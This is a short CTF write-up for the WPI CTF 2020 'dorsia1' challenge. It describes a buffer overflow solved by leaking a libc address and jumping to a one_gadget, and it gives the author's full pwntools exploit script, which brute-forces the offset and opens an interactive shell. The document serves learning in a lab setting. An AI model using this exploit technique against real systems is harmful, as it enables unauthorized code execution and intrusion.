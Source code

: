 # dorsia1 100pts (119 solves) #

![TASK](https://imgur.com/UYebsbW.png)

we are given the source code , it's a buffer overflow but we don't know the offset , i leaked the libc (using the system address) and used a one gadget from the libc to return to it

![CODE](https://imgur.com/sj0QL9v.png)

Here is my full exploit , i'll share a detailed writeup about dorsia3 in the next few days on my personal website so stay tuned (My twitter @BelkahlaAhmed1)

```python
from pwn import *
for i in range(69,90):
        p=remote("dorsia1.wpictf.xyz",31337)
#p=process("./pwn")
        leak=p.recvline()
        SYSTEM=int(leak,16)-765772
        BASE=SYSTEM-0x0004f440
        log.info("System address: "+hex(SYSTEM))
        log.info("Base: "+hex(BASE))
        one_gadget=BASE+0x0004f322
        log.info("One gadget: "+hex(one_gadget))
        payload="\x00"*i
        payload+=p64(one_gadget)
        p.sendline(payload)
        p.sendline("id")
        try:
                data=p.recvline()
                if "gid" in data: 
                        log.info("Fouuund!")
                        p.interactive()
        except Exception:
                continue
```
**Note:** The source code link is [HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/WPI%20CTF%202020/dorsia1/task.c)

If you have any questions you can contact me on twitter @BelkahlaAHmed1
